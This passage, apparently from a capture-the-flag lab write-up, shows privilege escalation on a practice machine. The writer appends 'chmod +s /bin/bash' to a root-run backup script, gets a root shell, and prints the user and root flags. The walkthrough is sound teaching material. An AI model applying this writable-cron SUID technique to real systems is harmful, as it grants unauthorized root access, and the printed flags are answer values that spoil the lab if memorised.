![](../images/Pasted%20image%2020250320162821.png)

We can check root is running some scripts, let's try to modify the `script.sh` file:

![](../images/Pasted%20image%2020250320163042.png)

We cannot write on this file directly but we can on the `main_backup.sh` one, let's send this to that file:

```
echo "chmod +s /bin/bash" >> /usr/local/bin/main_backup.sh
```

```
gyles@TEAM:~$ echo "chmod +s /bin/bash" >> /usr/local/bin/main_backup.sh
gyles@TEAM:~$ cat /usr/local/bin/main_backup.sh
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
chmod +s /bin/bash
```

Now, after a minute, we can enter a privileged bash session as root:

![](../images/Pasted%20image%2020250320164122.png)

Let's read both flags:

```
bash-4.4# cat /home/dale/user.txt
THM{6Y0TXHz7c2d}
```

```
bash-4.4# cat /root/root.txt
THM{fhqbznavfonq}
```

![](../images/Pasted%20image%2020250320164209.png)

